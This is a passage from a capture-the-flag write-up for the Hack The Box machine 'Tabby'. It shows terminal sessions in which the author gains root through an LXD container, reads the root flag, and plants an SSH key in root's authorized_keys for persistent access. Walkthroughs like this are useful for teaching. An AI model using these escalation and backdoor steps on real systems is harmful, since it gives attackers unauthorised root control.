+-------------+---------+----------------------+-----------------------------------------------+-----------+-----------+
|    NAME     |  STATE  |         IPV4         |                     IPV6                      |   TYPE    | SNAPSHOTS |
+-------------+---------+----------------------+-----------------------------------------------+-----------+-----------+
| mycontainer | RUNNING | 10.84.102.49 (eth0)  | fd42:cd51:1c76:426c:216:3eff:fe4b:a949 (eth0) | CONTAINER | 0         |
+-------------+---------+----------------------+-----------------------------------------------+-----------+-----------+
| privesc     | RUNNING | 10.84.102.194 (eth0) | fd42:cd51:1c76:426c:216:3eff:fe93:7f92 (eth0) | CONTAINER | 0         |
+-------------+---------+----------------------+-----------------------------------------------+-----------+-----------+
ash@tabby:/dev/shm$ lxc image ls
+-------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
| ALIAS | FINGERPRINT  | PUBLIC |          DESCRIPTION          | ARCHITECTURE |   TYPE    |  SIZE  |         UPLOAD DATE          |
+-------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
| s     | e69ffcf64dfc | no     | alpine v3.12 (20201012_22:05) | x86_64       | CONTAINER | 3.05MB | Oct 12, 2020 at 9:37pm (UTC) |
+-------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
```

apparently I was not the only one working one this particular machine...

### Root.txt

[https://www.hackingarticles.in/lxd-privilege-escalation/](https://www.hackingarticles.in/lxd-privilege-escalation/)

```text
ash@tabby:/dev/shm$ lxc exec privesc ash
~ # id
uid=0(root) gid=0(root)
~ # ls
~ # cd ..
/ # ls
bin    etc    lib    mnt    proc   run    srv    tmp    var
dev    home   media  opt    root   sbin   sys    usr
/ # cd root
~ # ls
~ # ssh root@10.10.10.194
ash: ssh: not found
~ # cd /mnt/root/root
/mnt/root/root # ls
root.txt  snap
/mnt/root/root # cat root.txt 
2d8c7388853dadce25e4605460167ab1
```

Even though I had the root flag, I was not convinced that I had actually owned the machine,

```text
/mnt/root/root # ls -la
total 40
drwx------    6 root     root          4096 Jun 16 13:59 .
drwxr-xr-x   20 root     root          4096 May 19 10:28 ..
lrwxrwxrwx    1 root     root             9 May 21 20:30 .bash_history -> /dev/null
-rw-r--r--    1 root     root          3106 Dec  5  2019 .bashrc
drwx------    2 root     root          4096 May 19 22:23 .cache
drwxr-xr-x    3 root     root          4096 May 19 11:50 .local
-rw-r--r--    1 root     root           161 Dec  5  2019 .profile
-rw-r--r--    1 root     root            66 May 21 13:46 .selected_editor
drwx------    2 root     root          4096 Jun 16 14:00 .ssh
-rw-r--r--    1 root     root            33 Oct 12 20:59 root.txt
drwxr-xr-x    3 root     root          4096 May 19 10:41 snap
/mnt/root/root # cd .ssh
/mnt/root/root/.ssh # ls
authorized_keys  id_rsa           id_rsa.pub
/mnt/root/root/.ssh # echo 'ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYA
AAAIbmlzdHAyNTYAAABBBJNKfSnisGKKi9utMx0QaRdDaA6OMUdff324/lsfm3Niiqes2/XqzGbIiyO8
MGa/fifvqNppFIRSbS10PhTojw0= zweilos@kali' >> authorized_keys
```

so I tried to add my public key and ssh in

```text
┌──(zweilos㉿kali)-[~/htb/tabby]
└─$ ssh -i ash.key root@10.10.10.194        
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-31-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon 12 Oct 2020 11:13:33 PM UTC

  System load:             0.0
  Usage of /:              34.0% of 15.68GB
  Memory usage:            44%
  Swap usage:              0%
  Processes:               229
  Users logged in:         1
  IPv4 address for ens192: 10.10.10.194
  IPv4 address for liquid: 10.84.102.1
  IPv6 address for liquid: fd42:cd51:1c76:426c::1
  IPv4 address for lxdbr0: 10.192.134.1
  IPv6 address for lxdbr0: fd42:a03c:fcd2:592f::1


0 updates can be installed immediately.
0 of these updates are security updates.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Wed Jun 17 21:58:30 2020 from 10.10.14.2
root@tabby:~# id && hostname
uid=0(root) gid=0(root) groups=0(root)
tabby
```

now I was happy and satisfied that I had truly owned the machine. I was still not entirely happy with how easy the root privesc was, but it was a good learning experience to know to secure members of the `lxd` group!



Thanks to [`egre55`](https://app.hackthebox.eu/users/1190) for something interesting or useful about this machine.

If you like this content and would like to see more, please consider supporting me through Patreon at [https://www.patreon.com/zweilosec](https://www.patreon.com/zweilosec).

